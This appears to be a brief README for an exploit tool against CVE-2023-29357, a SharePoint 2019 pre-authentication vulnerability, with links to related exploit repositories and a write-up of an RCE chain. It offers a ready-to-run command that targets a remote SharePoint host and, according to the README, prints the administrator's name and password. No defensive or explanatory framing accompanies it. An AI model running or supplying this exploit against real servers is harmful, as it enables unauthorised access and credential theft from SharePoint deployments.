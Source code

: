 ### Affected version
```
SharePoint 2019 (version < 2023 May patch)
```

### Run and print administrator name and password
```
CVE-2023-29357.exe https://<remoteSharepointHost>
```

### References
* https://github.com/LuemmelSec/CVE-2023-29357
* https://testbnull.medium.com/p2o-vancouver-2023-v%C3%A0i-d%C3%B2ng-v%E1%BB%81-sharepoint-pre-auth-rce-chain-cve-2023-29357-cve-2023-24955-ed97dcab131e
* https://github.com/Chocapikk/CVE-2023-29357

